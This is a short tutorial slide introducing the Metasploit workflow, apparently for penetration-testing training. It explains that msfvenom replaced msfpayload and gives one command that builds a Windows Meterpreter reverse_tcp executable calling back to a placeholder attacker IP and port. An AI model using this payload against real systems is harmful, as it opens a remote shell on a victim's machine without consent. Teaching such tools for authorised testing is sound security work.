

# Metasploit Workflow
in this part we are going to see how to create a payload in Metasploit and then exploit remote pc with Metasploit frame work.
So first thing is we have to create one payload for that we will use msfvenom previously msfpayload was used but now they removed msfpayload and msfencode and introduced msfvenom so lets see how to create a payload with msfvenom
 the command is
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe